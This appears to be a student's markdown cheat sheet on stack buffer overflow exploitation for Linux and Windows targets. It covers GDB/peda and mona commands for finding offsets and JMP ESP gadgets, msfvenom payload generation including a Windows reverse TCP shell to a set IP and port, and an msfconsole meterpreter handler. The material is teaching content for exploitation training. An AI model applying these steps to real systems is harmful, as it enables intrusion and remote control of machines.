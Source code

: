 
# Buffer Overflow Common Terms
* Heap
* Stack
* Registers
* Instruction Pointer
* Stack Pointer
* Base Pointer
* Function
* Shellcode
# Buffer Overflow Defenses
* Non executable (NX) Stack
* Address Space Layout Randomization (ASLR)
* Data Execution Prevention (DEP)
* Stack Canaries
* Position Independent Excutable (PIE)
# GDB Uses
* installation pf peda plugin
    git clone https://github.com/longld/peda.git ~/peda
    echo "source ~/peda/peda.py" >> ~/.gdbinit
### Common Commands
```
disass <FUNCTION>     # Disassemble portion of the program
info <...>    # Supply info for specific stack areas
x/256c $<REGISTER>    # Read characters from specific register
break <address>    # Establish a break point
run <<<$(echo "asdfghjlklk")    # Goes into standard in of program. It makes it take an arguement before running the program
info functions    # Lists all the functions
pdisass main    # Lists the main function. (Can do this to any function)
info proc map    # Gets a map of the process
```
# Demo Linux
* [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
  - Look for "EIP" It should have a specific value from the characters you overflowed it with, copy the hex value determine the overflow amount
* To see the size of the stack, do "info proc map" and note the line with [heap], the line below that has a start addr (this is the start of the stack). Note the end addr of the line that has [stack] in it.
* find /b command:
  - `0xff` is jmp
  - `0xe4` is ESP
* `\x90` is NOP
```
run ./func <<<$(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  # what thi does id run func and uses command substitution starting at the gators to input bad strings
   
# Find out the overflow value
# Exit
# Enter a fresh gdb session without peda
* env - gdb ./func    # This allows you to do that ^
* pdisass getuserinput # shows code for a function called getuserinput
* shell takes you to your lin ops lines type exit to go back to gdb
* type run then do the overflow of characters 
* show env    # Lists variables
* unset env <variable>    # This unsets a variable
* info proc map    # Gets a map of the process
* find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command (1)
* Then then tell it to not use the NULL Byte (2)
* Finally we tell it to format it to python (3)
```                              1           2         3
msfvenom -p /linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads

```
# Demo Windows
### The Setup
* Run strings.exe on the executable
* Look for vulnerable variables
* Go to [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and generate the string that will narrow the buffer offset
* Make the python [script](scripts.md)
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp
```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
run
```

